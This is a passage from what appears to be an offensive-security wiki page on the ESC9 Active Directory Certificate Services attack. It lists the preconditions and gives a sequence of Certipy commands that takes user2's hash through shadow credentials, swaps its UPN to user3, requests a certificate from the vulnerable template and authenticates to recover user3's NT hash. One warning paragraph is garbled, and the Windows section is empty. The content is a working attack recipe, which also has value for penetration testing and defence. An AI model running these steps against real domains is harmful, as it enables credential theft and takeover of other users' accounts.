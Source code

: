 Here are the requirements to perform ESC9:

* `StrongCertificateBindingEnforcement` not set to `2` (default: `1`) or `CertificateMappingMethods` contains `UPN` flag (`0x4`)
* The template contains the `CT_FLAG_NO_SECURITY_EXTENSION` flag in the `msPKI-Enrollment-Flag` value
* The template specifies client authentication
* `GenericWrite` right against any account A to compromise any account B

> [!WARNING]
> Acate can then be used with to obtain a TGT and authenticat the time of writting (06/08/2022), there is no solution as a low privileged user to read the `StrongCertificateBindingEnforcement` or the `CertificateMappingMethods` values. It is worth to try the attack hopping the keys are misconfigured.

::: tabs

=== UNIX-like

From UNIX-like systems, [Certipy](https://github.com/ly4k/Certipy) (Python) can be used to enumerate for, and conduct, the ESC9 scenario.

In this scenario, user1 has `GenericWrite` against user2 and wants to compromise user3. user2 is allowed to enroll in a vulnerable template that specifies the `CT_FLAG_NO_SECURITY_EXTENSION` flag in the `msPKI-Enrollment-Flag` value.

First, the user2's hash is needed. It can be retrieved via a [Shadow Credentials](../kerberos/shadow-credentials.md) attack, for example.

```bash
certipy shadow auto -username "user1@$DOMAIN" -p "$PASSWORD" -account user2
```

Then, the `userPrincipalName` of user2 is changed to user3.

```bash
certipy account update -username "user1@$DOMAIN" -p "$PASSWORD" -user user2 -upn user3
```

The vulnerable certificate can be requested as user2.

```bash
certipy req -username "user2@$DOMAIN" -hashes "$NT_HASH" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable template'
```

The user2's UPN is changed back to something else.

```bash
certipy account update -username "user1@$DOMAIN" -p "$PASSWORD" -user user2 -upn "user2@$DOMAIN"
```

Now, authenticating with the obtained certificate will provide the user3's NT hash during [UnPac the hash](../kerberos/unpac-the-hash.md). The domain must be specified since it is not present in the certificate.

```bash
certipy auth -pfx 'user3.pfx' -domain "$DOMAIN"
```

=== Windows

